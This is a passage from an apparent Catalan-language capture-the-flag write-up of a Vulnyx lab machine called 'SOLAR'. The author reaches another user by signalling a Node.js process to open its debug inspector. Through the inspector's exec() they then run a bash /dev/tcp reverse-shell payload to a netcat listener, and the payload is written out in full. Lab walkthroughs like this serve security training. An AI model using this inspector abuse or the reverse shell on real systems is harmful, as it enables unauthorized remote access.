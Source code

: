 Verifiquem si podem executar el binari de `nodejs` que està al servidor i si tenim permisos d'execució.

```bash
lenam@solar:~$ /home/julian/.nvm/versions/node/v22.7.0/bin/node --version
v22.7.0
```

Matem el procés i, a continuació, intentem entrar amb l'inspector de `nodejs`.

```bash
lenam@solar:~$ doas -u julian /bin/kill -s SIGUSR1 $(pgrep "node") && /home/julian/.nvm/versions/node/v22.7.0/bin/node inspect localhost:9229
doas (lenam@solar) password:
connecting to localhost:9229 ... ok
debug>
```

Podem entrar a l'inspector i enviar comandes al procés de l'aplicació mitjançant `exec()`. Això funcionarà durant un temps fins que el procés sigui reiniciat (aproximadament cada 2 minuts); després, haurem de sortir de l'inspector amb `.exit`.

Ens posem a escoltar amb `netcat` a la nostra màquina.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/SOLAR/test]
└─$ nc -lvnp 5000
listening on [any] 5000 ...
```

Al servidor, executem la comanda anterior per entrar a l'inspector de `nodejs`.

```bash
lenam@solar:~$ doas -u julian /bin/kill -s SIGUSR1 $(pgrep "node") && /home/julian/.nvm/versions/node/v22.7.0/bin/node inspect localhost:9229
doas (lenam@solar) password:
connecting to localhost:9229 ... ok
debug>
```

Ràpidament, sense esperar molt de temps, introduïm al depurador:

```javascript
debug> exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/192.168.1.116/5000 0>&1\"')")
```

Obtenim una `revshell` amb l'usuari `julian`.

![revshell julian](../../../assets/images/solar/image-19.png)
